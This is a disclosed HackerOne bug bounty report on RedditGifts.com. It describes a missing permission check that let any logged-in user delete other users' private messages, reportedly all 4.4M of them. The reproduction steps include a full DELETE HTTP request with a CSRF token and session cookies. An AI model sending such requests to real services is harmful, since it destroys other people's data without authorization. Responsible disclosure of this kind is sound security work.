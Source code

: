 # Deleting all DMs on RedditGifts.com

## Report Details
- **Report ID**: 1213237
- **URL**: https://hackerone.com/reports/1213237
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-05-31T02:09:36.165Z
- **Disclosed**: 2021-10-21T19:51:19.877Z

## Reporter
- **Username**: hakercic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
## Summary:
It's possible to delete all 4.4M private messages on RedditGifts.com due to missing permission check on DELETE request

## Steps To Reproduce:

  1. Set up 3 accounts on RedditGifts.com (FriendA, FriendB, Attacker)
  1. Have FriendA send message to FriendB
  1. As Attacker send the following request (with cookies):
```
DELETE /api/v1/messages/4423007/ HTTP/1.1
Host: www.redditgifts.com
X-CSRFTOKEN: rYxQcijrs6viZxyLZt2os9gNvLgmEeXfSrH5wOe10GcOg3ABOvL3ebDbAXmeXojj
Referer: https://www.redditgifts.com/api/
Cookie: csrftoken=rYxQcijrs6viZxyLZt2os9gNvLgmEeXfSrH5wOe10GcOg3ABOvL3ebDbAXmeXojj; sessionid=osymp6sp6bb83gyt8of7qbeurtuo2450
```
Change cookies/csrf token and `4423007` to your own message ID

## Supporting Material/References:

{F1320816}
{F1320817}

## Impact

It's possible to delete all 4.4M private messages on RedditGifts.com

## Attachments
- recording-1622426911152.webm
- Screenshot_3.png

